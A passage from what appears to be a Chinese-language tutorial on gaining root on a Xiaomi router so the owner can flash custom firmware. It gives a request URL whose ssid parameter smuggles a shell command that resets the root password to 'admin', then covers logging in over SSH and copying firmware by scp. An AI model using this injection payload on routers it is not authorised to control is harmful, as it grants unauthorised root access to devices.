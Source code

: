 ```
http://192.168.31.1/cgi-bin/luci/;stok=/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

*补全**stok=**后面的数据，然后复制到浏览器打开*,显示`{"code":0}`就说明成功了。

#### 进入ssh
这里用putty连上路由器

![image-20220427143659857](https://raw.githubusercontent.com/kengerlwl/kengerlwl.github.io/master/image/eac86cb5b405690647db62f9da52eb90/e5f8106ddc96f245be7846b0f6932191.png)

**密码是admin。**



然后将如下升级固件用scp传入路由器的/tmp目录下

![image-20220427143830787](https://raw.githubusercontent.com/kengerlwl/kengerlwl.github.io/master/image/eac86cb5b405690647db62f9da52eb90/61f32af36ec2532fe1aceb99afdc7c0f.png)
